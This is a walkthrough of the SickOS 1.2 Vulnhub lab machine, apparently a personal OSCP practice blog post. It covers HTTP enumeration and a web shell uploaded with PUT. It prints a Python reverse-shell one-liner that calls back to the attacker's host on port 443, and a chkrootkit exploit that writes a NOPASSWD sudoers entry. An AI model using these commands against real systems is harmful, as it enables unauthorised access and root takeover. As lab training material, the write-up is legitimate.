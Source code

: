 ```yaml
---
layout: post
title:  "SickOS 1.2 Write-Up"
categories: [write-ups]
permalink: /write-ups/sickos_1.2_writeup/
---
```

SickOS 1.2 is an OSCP-like machine from Vulnhub and the second of its series (I haven't solved the first one yet). 
<h1>Network Scan</h1>
As always, I've used Nmap to sweep the network and get the IP of the target machine. In this case you will see that my IP range has changed from previous write-ups and also that my IP has changed from .128 to .130. This is because I've changed my computer and I had a little trouble while configuring the virtual network.
![Net Scan](netScan.png)
The target IP is 192.168.124.129, as .128 was the IP of my machine before it changed to .130.
<br><br>
<h1>Port Scan</h1>
![Port Scan](portScan.png)
There are only two ports open and usually there isn't anything interesting in the SSH server for the initial enumeration, so I started with HTTP.<br><br>
<h1>Port 80 Enumeration</h1>
The root page is a .php file that contains an image, so we can't do anything with it. Nikto couldn't find anything useful but Gobuster found a directory. (All the directories that start and end with ~ are treated with a 403 error, I don't know why this happens).
![gobuster](gobuster.png)
The test directory has directory listing enabled, but it is empty. 
![Test directory listing](test_dir_list.png)
At this point I wasn't sure about how to continue, so I searched on the Internet for other methods to enumerate HTTP. I found the OPTIONS HTTP request, which enumerates the allowed request methods for a directory. This method didn't work on the root directory, but it returned some allowed methods in the test directory.
![OPTIONS request](OPTIONS-req.png)
In the "Allow" field there are the PUT and DELETE methods, which means that we can try to upload and delete files on the directory.
![Shell upload](uploadingShell.png)
CUrl sets the Expect header by default, which caused a 417 Expectation Failed error on the server. To solve this I added the '-H "Expect:"', which removes the Expect header because it has no content.
![Shell uploaded](shellUploaded.png)
I used the same shell as always (the one that gets a "cmd" argument with a command) and then I tried to spawn a reverse shell. I had lots of problems with this because none of the reverse shells that I tried worked, so I assumed that a firewall was in place and I tried to make the reverse shell connect to a common port. Port 443 (which is used by HTTPS) worked.
{% highlight python %}python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.124.130",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' {% endhighlight %}
![Shell connected](shellConnected.png)
<h1>PrivEsc to Root</h1>
At first glance I couldn't find anything useful to escalate privileges, besides the fact that the john user was in the sudo group. After a more through examination I noticed the chkrootkit file in the /etc/cron.daily directory.
![Cron Daily](cronDaily.png)
This file specifies that the chkrootkit binary will run everyday as root, so I used searchsploit to check if the binary has any vulnerability.
![Searchsploit](searchsploit.png)
Chrootkit 0.49 is vulnerable and leads to privilege escalation to the user that is running the binary (which is root in this case). I checked the version of the binary to see if the exploit could work using the -V argument.
![Checking version](versionCheck.png)
The exploit only requires to have an executable file in the /tmp directory called update. Whenever the chkrootkit binary is executed all the contents of the /tmp/update files are also executed (as root), so we only need to get an interactive shell. <br>
In this case I simply added the www-data user to the /etc/sudoers file, but another solution could be to write an ssh key to the /root/.ssh/authorized_keys file or to spawn another reverse shell. To do so I used the following commands:
{% highlight bash %}echo 'echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' > /tmp/update
chmod +x /tmp/update {% endhighlight %}
The files in cron.daily are executed once per day so I was thinking about leaving the VM alone for a day but using "sudo -l" I noticed that the command had already executed (I'll explain why in the next section).
![Root](root.png)
<h1>Final Explanations</h1>
Once I got root access I began investigating about the firewall and the strange cron job. To check the firewall we can use the "iptables -L" command, but I found a file in /root with the exact specification of the rules so I used it because it was easier to read.
![iptables rules](iptables.png)
Basically, the rules are saying that the machine can only recieve packets with the destination port equal to 22 or 80 or with the source port equal to 443 or 8080 (the source a destination ports are reversed for the sent packets). This is why the reverse shell only worked when connecting to the port 443 of my local machine (8080 also works).<br>
I found a file in the /etc/cron.d directory called chkrootkit, which also runs the chkrootkit binary but this time it runs at the maximum frequency that cron offers (the file was only readable by root). Due to this I didn't have to wait a whole day for the binary to run. Another way to discover this cronjob without having root access could be to use "pspy" to spy the processes on the machine.
![Crontab](crontab.png)
<h1>Conclusions</h1>
This has been a fairly difficult machine to solve, mainly because I didn't know about the OPTIONS HTTP request method and I didn't have much experience uploading files using PUT. Also, it required a little bit of guessing for the ports of the reverse shell and the frequency of the cronjob and to pay a lot of attention to details to avoid missing the cronjob.<br> 
In conclusion, this has been a great learning experience and a really fun box to solve.
